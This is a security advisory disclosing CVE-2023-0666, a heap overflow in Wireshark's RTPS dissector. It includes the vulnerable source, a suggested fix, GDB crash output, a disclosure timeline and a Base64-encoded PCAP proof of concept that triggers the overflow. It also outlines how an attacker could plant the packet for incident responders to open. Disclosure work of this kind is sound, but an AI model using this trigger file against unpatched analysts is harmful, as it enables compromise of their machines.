 ```yaml
---
title: CVE-2023-0666 🤘
aliases: ["/cves/CVE-2023-0666.html"]
pubDate: 2023-06-06T13:37:00-05:00
---
```


# CVE-2023-0666: Wireshark RTPS Parsing Buffer Overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0666] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [RTPS](https://wiki.wireshark.org/Protocols/rtps) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0666] appears to be an instance of [CWE-122].

# Technical Details

The `rtps_util_add_type_library_type` function contains a call to `g_strlcpy` that, without validation, uses a length supplied by the packet data that can result in a heap-based buffer overflow.

Snippet of the vulnerable code:

```
  static gint rtps_util_add_type_library_type(proto_tree *tree,
          tvbuff_t * tvb, gint offset, const guint encoding, dissection_info *info) {
    proto_tree * annotation_tree;
    guint32 member_id = 0, member_length = 0, long_number, i;
    gint offset_tmp;
    guint16 short_number;
    gchar * name = NULL;
    rtps_util_dissect_parameter_header(tvb, &offset, encoding, &member_id, &member_length);
    offset_tmp = offset;
/* ... */
    long_number = tvb_get_guint32(tvb, offset_tmp, encoding);
    name = tvb_get_string_enc(wmem_packet_scope(), tvb, offset_tmp+4, long_number, ENC_ASCII);
    if (info)
      (void) g_strlcpy(info->member_name, name, long_number);
```

The `dissection_info` struct is defined as:

```
  typedef struct _dissection_info {
    guint64 type_id;
    gint member_kind;
    guint64 base_type_id;
    guint32 member_length;
    gchar member_name[MAX_MEMBER_NAME];

    RTICdrTypeObjectExtensibility extensibility;

    gint32 bound;
    guint32 num_elements;
    dissection_element* elements;

  } dissection_info;
```

and `MAX_MEMBER_NAME` is defined as:

```
  #define MAX_MEMBER_NAME                 (256)
```

The overflow occurs when `long_number` is greater than 256 bytes however it should be noted that this does require that many bytes to have been sent.

`g_strlcpy` expects the size of the destination buffer as the last argument so this can be remediated by using `sizeof(info->member_name)` instead of `long_number` in the `g_strlcpy` call. Additionally, the return value should be checked because if it is greater than `sizeof(info->member_name)`, then truncation occurred.

Reproduction: Run `tshark -r rtps_trigger.pcap` or open `rtps_trigger.pcap` in Wireshark. Note that an ASAN build is not required due to the way the PCAP was crafted.

Full output from running under GDB:

```
(gdb) run -r ~/rtps_trigger.pcap
Starting program: /usr/bin/tshark -r ~/rtps_trigger.pcap

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.ubuntu.com
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fffebcdd6c0 (LWP 125835)]
[Thread 0x7fffebcdd6c0 (LWP 125835) exited]
[New Thread 0x7fffebcdd6c0 (LWP 125836)]
[Thread 0x7fffebcdd6c0 (LWP 125836) exited]
    1   0.000000 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [SYN] Seq=0 Win=8192 Len=0
    2   0.000363 192.168.0.214 → 192.168.0.231 TCP 54 9187 → 2603 [SYN, ACK] Seq=0 Ack=0 Win=8192 Len=0
    3   0.000611 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [ACK] Seq=1 Ack=0 Win=8192 Len=0
    4   0.000853 192.168.0.231 → 192.168.0.214 RTPS 1454 DATA_deprecated[Malformed Packet]

Thread 1 "tshark" received signal SIGSEGV, Segmentation fault.
wmem_block_split_free_chunk (allocator=0x5555555bf660, chunk=0x7fffe9f44fb0, size=<optimized out>) at ./wsutil/wmem/wmem_allocator_block.c:614
614     ./wsutil/wmem/wmem_allocator_block.c: No such file or directory.
(gdb) x/5i $pc
=> 0x7ffff088db1b <wmem_block_split_free_chunk+267>:    mov    QWORD PTR [rsi+0x10],rax
   0x7ffff088db1f <wmem_block_split_free_chunk+271>:    mov    QWORD PTR [r8+0x8],rax
   0x7ffff088db23 <wmem_block_split_free_chunk+275>:    jmp    0x7ffff088da9b <wmem_block_split_free_chunk+139>
   0x7ffff088db28 <wmem_block_split_free_chunk+280>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff088db30 <wmem_block_split_free_chunk+288>:    mov    rax,QWORD PTR [rcx+0x10]
(gdb) p (char[]) $rsi
$1 = "AHA!AHA!"
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

{{< details >}}

```
1MOyoQIABAAAAAAAAAAAAP//AAABAAAAW+1JZDkZDgA2AAAANgAAAHRGoNgQS3RGo
CvQ6AgARQAAKAABAABABvfBwKgA58CoANYKKyPjAAC1rAAAAABQAiAAKRoAAFvtSW
SkGg4ANgAAADYAAAB0RqAr0Oh0RqDYEEsIAEUAACgAAQAAQAb3wcCoANbAqADnI+M
KKwAAAAEAALWsUBIgACkJAABb7UlknBsOADYAAAA2AAAAdEag2BBLdEagK9DoCABF
AAAoAAEAAEAG98HAqADnwKgA1gorI+MAALWtAAAAAVAQIAApCgAAW+1JZI4cDgCuB
QAArgUAAHRGoNgQS3RGoCvQ6AgARQAFoAABAABABvJJwKgA58CoANYKKyPjAAC1rQ
AAAAJQGCAA7yIAAAAACJBSVFBTAgABAQAAAAAAAQkBEjRWeAIbeABSZWFkV3JpdJh
2VDIQ/ty6EjRWeN6tur5FZ4kKuqqqrRD+3LpyAEwAAQAAAAYAAABGaQABDgAAAAIA
AAARIjNEVWZ3iJmqu8zd7v8WFxgZICEiIyQBAgMEBQYHCAkQERITFBUWFxgZICEiI
yQDAAAARXhwAAEAAABBYTBBYTFBYTJBYTNBYTRBYTVBYTZBYTdBYThBYTlBYjBBYj
FBYjJBYjNBYjRBYjVBYjZBYjdBYjhBYjlBYzBBYzFBYzJBYzNBYzRBYzVBYzZBYzd
BYzhBYzlBZDBBZDFBZDJBZDNBZDRBZDVBZDZBZDdBZDhBZDlBZTBBZTFBZTJBZTNB
ZTRBZTVBZTZBZTdBZThBZTlBZjBBZjFBZjJBZjNBZjRBZjVBZjZBZjdBZjhBZjlBZ
zBBZzFBZzJBZzNBZzRBZzVBZzZBZzdBZzhBZzlBaAAEAABBaDJBaDNBaDRBaDVBaD
ZBaDdBaDhBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJ
BajNBajRBajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhB
azlBbDBBbDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBb
TVBbTZBbTdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbz
FBbzJBbzNBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDd
BcDhBcDlBcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhB
ITRBcjVBcjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBd
DBBdDFBdDJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdT
ZBdTdBdThBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJ
BdzNBdzRBdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhB
eDlBeTBBeTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBe
jVBejZBejdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYj
FCYjJCYjNCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzd
CYzhCYzlCZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNC
ZTRCZTVCZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZ
zBCZzFCZzJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaD
ZCaDdCaDhCaDlCaTBCQWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWI
xQWIyQWIzQWI0QWI1QWI2QWI3QWI4QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3
QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3QWQ4QWQ5QWUwQWUxQWUyQWUzQ
WU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2QWY3QWY4QWY5QW
cwQWcxQWcyQWczQWc0QWc1QWc2QWc3QWc4QWc5QWgwQWgxQWgyQWgzQWg0QWg1W+1
JZBUeDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvfBwKgA1sCoAOcj
4worAAAAAgAAuyVQECAAI5EAAFvtSWQAHw4AUgMAAFIDAAB0RqDYEEt0RqAr0OgIA
EUAA0QAAQAAQAb0pcCoAOfAqADWCisj4wAAuyUAAAACUBggAG1hAABBaDZBaDdBaD
hBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJBajNBajR
BajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhBazlBbDBB
bDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBbTVBbTZBb
TdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbzFBbzJBbz
NBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDdBcDhBcDl
BcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhBITRBcjVB
cjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBdDBBdDFBd
DJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdTZBdTdBdT
hBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJBdzNBdzR
BdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhBeDlBeTBB
eTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBejVBejZBe
jdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYjFCYjJCYj
NCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzdCYzhCYzl
CZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNCZTRCZTVC
ZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZzBCZzFCZ
zJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaDZCaDdCaD
hCaDlCaTBCW+1JZHggDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvf
BwKgA1sCoAOcj4worAAAAAgAAvkFQECAAIHUAAA==
```

{{< /details >}}

<br/>

# Attacker Value

By providing this poisoned RTPS packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [Austin Hackers Anonymous!](https://infosec.exchange/@austinhackers)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19085].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19085] to address.
* 2023-05-21 (Sun): Patch [merged](https://gitlab.com/wireshark/wireshark/-/merge_requests/10687) to the release-4.0 branch of Wireshark.
* 2023-05-22 (Mon): Issue [19085] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0666] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-06 (Tue): Public disclosure of [CVE-2023-0666]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0666]: https://takeonme.org/cves/CVE-2023-0666.html
[CWE-122]: https://cwe.mitre.org/data/definitions/122.html
[meeting]: https://takeonme.org/meetings.html
[19085]: https://gitlab.com/wireshark/wireshark/-/issues/19085
[Wireshark]: https://www.wireshark.org/download.html
